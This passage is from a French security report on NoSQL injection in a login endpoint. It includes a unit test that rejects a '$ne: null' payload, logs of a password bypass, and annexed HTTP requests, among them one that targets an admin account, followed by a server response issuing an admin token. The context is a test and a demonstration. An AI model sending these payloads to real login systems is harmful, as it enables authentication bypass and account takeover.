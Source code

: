 ### 5. Tests de sécurité automatisés
```typescript
// Test unitaire de sécurité
describe('AuthController Security', () => {
  it('should reject NoSQL injection attempts', async () => {
    const maliciousPayload = {
      email: { $ne: null },
      password: { $ne: null }
    };

    await request(app)
      .post('/auth/login')
      .send(maliciousPayload)
      .expect(400); // Bad Request attendu
  });
});
```

---

## 📊 Annexes

### Annexe A: Logs de sécurité
```
[🚨 VULNERABLE QUERY] { email: { '$ne': null }, password: { '$ne': null } }
[🚨 PASSWORD BYPASS DETECTED!] User: admin@test.com
[✅ JWT GENERATED] Token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9...
```

### Annexe B: Requêtes HTTP de test
```http
### Exploit de base
POST {{host}}/auth/login-vulnerable
Content-Type: application/json

{
  "email": {"$ne": null},
  "password": {"$ne": null}
}

### Ciblage admin
POST {{host}}/auth/login-vulnerable
Content-Type: application/json

{
  "email": "admin@test.com",
  "password": {"$ne": null}
}
```

### Annexe C: Réponses serveur
```json
{
  "success": true,
  "access_token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9...",
  "user": {
    "id": "60f4d2e5c8a8b830d8e4a1b2",
    "email": "admin@test.com",
    "role": "admin",
    "createdAt": "2024-01-15T10:30:00.000Z"
  }
}
```
